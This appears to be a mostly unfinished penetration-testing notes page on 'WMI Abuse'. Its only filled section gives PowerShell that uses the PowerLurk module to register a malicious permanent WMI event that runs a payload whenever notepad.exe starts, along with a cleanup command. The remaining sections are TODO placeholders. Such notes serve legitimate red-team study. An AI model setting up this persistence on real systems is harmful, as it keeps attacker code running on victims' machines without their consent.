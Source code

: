 # WMI Abuse
---

## Vulnerability

TODO: Describe the vulnerability here.

## Prerequisites

* TODO: List prerequisites here.

## Exploit

Using [PowerLurk](https://github.com/Sw4mpf0x/PowerLurk), execute the payload when notepad is opened.

```powershell
Import-Module .\PowerLurk.ps1
Register-MaliciousWmiEvent -EventName $name -PermanentCommand $executable -Trigger ProcessStart -ProcessName notepad.exe

# Remove the malicious WMI event.
Get-WmiEvent -Name $name | Remove-WmiObject
```

## Useful links

* TODO: List links here.

## Recommendations

- [ ] TODO: List recommendations here.